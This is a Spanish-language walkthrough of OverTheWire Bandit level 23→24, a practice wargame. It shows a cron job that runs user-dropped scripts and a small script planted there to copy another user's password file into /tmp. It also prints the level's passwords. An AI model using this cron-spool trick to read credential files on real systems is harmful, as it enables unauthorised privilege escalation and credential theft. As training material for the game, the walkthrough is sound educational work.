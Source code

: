 # Bandit Level 23 → Level 24
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion
```bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit23       e2scrub_all
cronjob_bandit17_root  cronjob_bandit24       otw-tmp-dir
cronjob_bandit22       cronjob_bandit25_root  sysstat
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/lol
bandit23@bandit:~$ cd /tmp/lol
bandit23@bandit:/tmp/lol$ echo "cat /etc/bandit_pass/bandit24 >/tmp/lol/password" > script.sh
bandit23@bandit:/tmp/lol$ cat script.sh 
cat /etc/bandit_pass/bandit24 >/tmp/lol/password
bandit23@bandit:/tmp/lol$ chmod +x script.sh 
bandit23@bandit:/tmp/lol$ touch password 
bandit23@bandit:/tmp/lol$ chmod 666 password 
bandit23@bandit:/tmp/lol$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 14:41 .
drwxrwx-wt 2787 root     root     106496 Feb 28 14:44 ..
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 14:44 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 14:43 script.sh
bandit23@bandit:/tmp/lol$ cp script.sh  /var/spool/bandit24/foo
bandit23@bandit:/tmp/lol$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 14:41 .
drwxrwx-wt 2787 root     root     106496 Feb 28 14:44 ..
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 14:44 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 14:43 script.sh
bandit23@bandit:/tmp/lol$ date
Tue Feb 28 02:44:51 PM UTC 2023
bandit23@bandit:/tmp/lol$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 14:41 .
drwxrwx-wt 2787 root     root     106496 Feb 28 14:45 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 14:45 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 14:43 script.sh
bandit23@bandit:/tmp/lol$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/lol$
```
## Notas adicionales
_Bash scripting_ es la fusión perfecta entre programación y el intérprete de comandos más común de _Linux_
## Referencias

